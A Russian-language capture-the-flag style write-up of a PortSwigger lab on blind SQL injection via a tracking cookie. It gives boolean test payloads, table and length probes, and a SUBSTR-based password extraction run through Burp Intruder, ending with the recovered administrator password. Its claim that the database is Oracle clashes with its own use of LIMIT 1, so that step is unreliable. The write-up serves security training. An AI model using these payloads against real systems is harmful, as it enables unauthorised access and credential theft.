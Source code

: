 
- Эта лабораторная работа содержит уязвимость, связанную со слепым внедрением SQL. 

- Приложение использует файл cookie отслеживания для аналитики и выполняет запрос SQL, содержащий значение отправленного файла cookie.

- Результаты запроса SQL не возвращаются, и сообщения об ошибках не отображаются. Но приложение включает в себя `Welcome back` сообщение на странице, если запрос возвращает какие-либо строки.

- База данных содержит таблицу с именем `users`, со столбцами, называемыми `username` и `password`

### Задача
Использовать уязвимость слепой инъекции SQL, чтобы узнать пароль `administrator` пользователь.

----
# Разведка

1. При авторизации, мы имеем такой запрос:
```
POST /login HTTP/1.1
Host: 0adf007a049233d8809ca81100fd0079.web-security-academy.net
Cookie: TrackingId=txiOFEFLQ9pYTJPl; session=9WpoA8KZ7ldAG3sYpE2tkHZv4qBNOf9S
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: https://0adf007a049233d8809ca81100fd0079.web-security-academy.net
Referer: https://0adf007a049233d8809ca81100fd0079.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-Gpc: 1
Priority: u=0, i
Te: trailers
Connection: keep-alive

csrf=2ROFeGu9YGYNATLWlYYCMQSveFf1z7SD&username=administrator&password=123
```

С учётом вводных данных будем тестировать Cookie а именно TrackingId

2. Кидаем запрос в Reapeter и проверяем какой ответ мы получаем от сервера
- При неверном пароле без тестов вышел ответ `Invalid username or password`

==БЕЗ ' так как мы иначе нарушем логику запроса, я лоханулся тут==

3. Проверяем SQL инъекцию на простые запросы
```
' AND '1'='1 
' AND '1'='2
```
- При AND '1'='1  получили ответ Welcome back!
- При  AND '1'='2 получен ответ Invalid username or password.
Тем самым уязвимость есть!

----
# Атака 

4. Пробуем внедрить в cookie инъекцию, так как мы не имеем информации о версии бд то проверим все запросы по очереди
```
Oracle - SUBSTR('foobar', 4, 2)
Microsoft - SUBSTRING('foobar', 4, 2)
PostgreSQL - SUBSTRING('foobar', 4, 2)
MySQL - SUBSTRING('foobar', 4, 2)
```

4.1 Тест Oracle, Удачно
```
SUBSTR('foobar', 1, 1)='f
```

Тем самым база данных у нас используется **Oracle**

5. Формируем запрос на проверку таблицы users, Удачно
```
' AND (SELECT 'a' FROM users LIMIT 1)='a  
```
Подзапрос выбирает строку, содержащую символ 'a', из таблицы users. Поскольку LIMIT 1 ограничивает выборку до одной строки, этот запрос всегда будет возвращать 'a', если таблица users существует и содержит хотя бы одну запись.


6. Теперь проверяем на то что в бд есть строчка administrator, Подтвердили
```
AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

7. Уточняем количество значений в пароле (длина пароля 20 символов)
```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a
```
Данный запрос работает как:
- `SELECT 'a' FROM users WHERE username='administrator'` — этот подзапрос пытается извлечь строку 'a' из таблицы users, где username равен 'administrator'.

- `AND LENGTH(password)>19` — это условие добавляет фильтрацию: оно проверяет, что длина пароля для администратора больше 19 символов.

- Весь запрос объединяется с помощью AND, и если подзапрос возвращает `'a'`, то весь запрос будет истинным.

8. Подбираем пароль, для этого мы достаём пароль при помощи:
```
`AND (SELECT SUBSTR(password,chuslo,1) FROM users WHERE username='administrator')='passwd`
```
Запихиваем его в Intruder Burp Suit, используем подстановку к `passwd` брутформ а к `chuslo` Numbers до 20 c  Brute forcer и вид атаки Cluster Bomb (ток при pro версии иначе писать скрипт)
- [Подробное видио по настройке 27 минута](https://youtu.be/LBG_n9fr8sM?si=HS9C7CfaMy6udNdX)

![[Pasted image 20250119162355.png]]

|     |     |     |     |     |       |       |      |     |
| --- | --- | --- | --- | --- | ----- | ----- | ---- | --- |
| 1   | 1   | a   | 200 | 125 | false | false | 3405 |     |
| 662 | 2   | 7   | 200 | 143 | false | false | 3405 |     |
| 323 | 3   | q   | 200 | 141 | false | false | 3405 |     |
| 564 | 4   | 2   | 200 | 98  | false | false | 3405 |     |
| 645 | 5   | 6   | 200 | 136 | false | false | 3405 |     |
| 326 | 6   | q   | 200 | 148 | false | false | 3405 |     |
| 507 | 7   | z   | 200 | 103 | false | false | 3405 |     |
| 288 | 8   | o   | 200 | 138 | false | false | 3405 |     |
| 309 | 9   | p   | 200 | 109 | false | false | 3405 |     |
| 310 | 10  | p   | 200 | 138 | false | false | 3405 |     |
| 371 | 11  | s   | 200 | 98  | false | false | 3405 |     |
| 132 | 12  | g   | 200 | 99  | false | false | 3405 |     |
| 253 | 13  | m   | 200 | 143 | false | false | 3405 |     |
| 654 | 14  | 6   | 200 | 217 | false | false | 3405 |     |
| 615 | 15  | 4   | 200 | 140 | false | false | 3405 |     |
| 576 | 16  | 2   | 200 | 132 | false | false | 3405 |     |
| 117 | 17  | f   | 200 | 111 | false | false | 3405 |     |
| 458 | 18  | w   | 200 | 153 | false | false | 3405 |     |
| 139 | 19  | g   | 200 | 99  | false | false | 3405 |     |
| 40  | 20  | b   | 200 | 134 | false | false | 3405 |     |

----
# Заключение

Ник: administrator 
Пароль: a7q26qzoppsgm642fwgb

